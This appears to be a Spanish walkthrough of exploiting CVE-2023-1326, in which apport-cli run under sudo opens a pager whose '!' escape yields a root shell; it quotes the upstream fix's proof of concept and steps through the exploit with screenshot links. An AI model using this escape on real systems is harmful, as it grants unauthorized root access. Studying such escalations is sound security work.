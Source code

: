 La siguiente prueba de concepto nos puede proporcionar un terminal con privilegios root:

```
The apport-cli supports view a crash. These features invoke the default
pager, which is likely to be less, other functions may apply.

It can be used to break out from restricted environments by spawning an
interactive system shell. If the binary is allowed to run as superuser
by sudo, it does not drop the elevated privileges and may be used to
access the file system, escalate or maintain privileged access.

apport-cli should normally not be called with sudo or pkexec. In case it
is called via sudo or pkexec execute `sensible-pager` as the original
user to avoid privilege elevation.

Proof of concept:

$ sudo apport-cli -c /var/crash/xxx.crash
[...]
Please choose (S/E/V/K/I/C): v
!id
uid=0(root) gid=0(root) groups=0(root)
!done  (press RETURN)

This fixes [CVE-2023-1326](https://github.com/advisories/GHSA-qgrc-7333-5cgx "CVE-2023-1326").

Bug: [https://launchpad.net/bugs/2016023](https://launchpad.net/bugs/2016023)
Signed-off-by: Benjamin Drung <benjamin.drung@canonical.com>
```

#### Explotación

En primer lugar, para realizar la explotación de esta vulnerabilidad y obtener un terminal con privilegios debemos ejecutar la aplicación y seleccionar que queremos reportar un problema referente a la pantalla:

```

```

Entonces, indicamos que tipo de problemas hemos observado, por ejemplo, podemos indicar que hemos observado congelaciones de la pantalla durante el arranque o el uso del sistema:

`![](HTML%20import/Attachments/Selection_041.png)`

Ahora, debemos indicar que queremos ver el informe y una vez el binario nos muestre toda la información del informe nos aparecerán dos puntos (:).

`![](HTML%20import/Attachments/Selection_045.png)`

![](../Imágenes/Selection_042.png)

En este momento debemos escribir el signo de exclamación (!) y pulsar la tecla Enter:

`![](HTML%20import/Attachments/Selection_043.png)`

